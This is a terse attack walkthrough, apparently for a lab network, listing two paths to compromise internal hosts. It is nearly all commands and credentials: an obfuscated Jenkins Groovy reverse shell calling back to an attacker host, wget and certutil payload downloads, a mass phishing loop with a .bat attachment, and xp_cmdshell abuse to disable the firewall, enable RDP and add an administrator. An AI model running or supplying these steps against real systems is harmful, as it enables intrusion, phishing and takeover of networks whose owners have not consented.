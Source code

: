 # Shortcut

- [Shortcut](#shortcut)
  - [Path 1](#path-1)
  - [Path 2](#path-2)

---

## Path 1

To get access to the internal network, do the following steps:

1) SSH tunnel on 192.168.8.3 (Credential: `iyer` / `Iyer@123`)

```
sudo -u brian ssh -N -D 9050 iyer@192.168.8.3
```

<br/>

2) Edit `/etc/proxychains.conf`. Make sure only socks4 is enabled.

```
socks4 127.0.0.1 9050
```

<br/>

3) With foxyproxy forwarding traffic to SOCK4 server 127.0.0.1:9050, login Jenkins (http://10.1.3.1:1234/) with the credential `autoadmin` / `Jenk!nsADMIN`

<br/>

4) Locally launch a netcat listener.

```
nc -nlvp 443
```

<br/>

5) On Jenkins, go to http://10.1.3.1:1234/script. Then use the following script to get a reverse shell:

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xMS80NDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

<br/>

6) On the reverse shell, get ncat (https://github.com/ZephrFish/static-tools/raw/master/ncat) from the local machine:

* Local:

```
python3 -m http.server 80
```

* Remote:
```
python -c 'import pty; pty.spawn("/bin/bash")'
cd /tmp && wget http://192.168.100.11/ncat
```

<br/>

7) Create another HTTP proxy via SSH tunnel using ncat:

```
chmod +x ncat && ./ncat -l 4444 --proxy-type http &
```

```
ssh -R 4445:127.0.0.1:4444 brian@192.168.100.11
```

<br/>

8) Modify `/etc/proxychains.conf` to use the HTTP proxy:

```
nano /etc/proxychains.conf
```

Disable the sock4 proxy and add the following:
```
http 127.0.0.1 4445
```

<br/>

9) SSH to the jump server using `jump-admin` / `B@DB!tch`:

```
proxychains ssh jump-admin@10.1.1.4
```

<br/>

10) Use the Jump Server as socks4 proxy:

```
proxychains ssh -N -D 9051 jump-admin@10.1.1.4
```

<br/>

11) Change `/etc/proxychains.conf`:

```
nano /etc/proxychains.conf

sock4 127.0.0.1 9051
```

----

## Path 2

1) Phishing to get a reverse shell from Iyer @ Scientist-Machine

```
for email in $(cat emails.txt); do sendemail -l email.log -f "hafiz@atomic-nuclear.xyz" -u "[IMPORTANT] Research Progress Update" -m $(cat email_msg.txt) -t "$email" -s "atomic-nuclear.site:25" -o tls=no -a ProgressUpdate.bat; done
```

```
nc -nlvp 443
```

<br/>

2) On the attacker machine, launch rpivot listener:

```
python server.py --server-port 8081 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9051
```

<br/>

3) Serve rpivot `client.exe` using python3 http server:

```
cd /usr/share/rpivot && python3 -m http.server 80
```

<br/>

4) On the Scientist Machine, download and call back to the rpivot listener:

```
cd C:\Users\Public && certutil -urlcache -f http://192.168.100.11/client.exe .\client.exe

client.exe --server-ip 192.168.100.11 --server-port 8081
```

<br/>

5) Use `msdat.py` to add `iisadmin` into local admin group. Also enable RDP and disable firewall on the DB-Server.

```
proxychains python msdat.py xpcmdshell -s 10.1.3.2 -p 1433 -U sa -P 'SAAdmin!@#$%' --enable-xpcmdshell --disable-xpcmdshell --disable-xpcmdshell --shell
```

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

```
netsh advfirewall set allprofiles state off
```

```
net localgroup administrators operations\iisadmin /add
```

<br/>

6) RDP to the DB-Server machine:
```
proxychains xfreerdp /size:85% /u:iisadmin /p:'Head!!S%$#@!' /v:10.1.3.2
```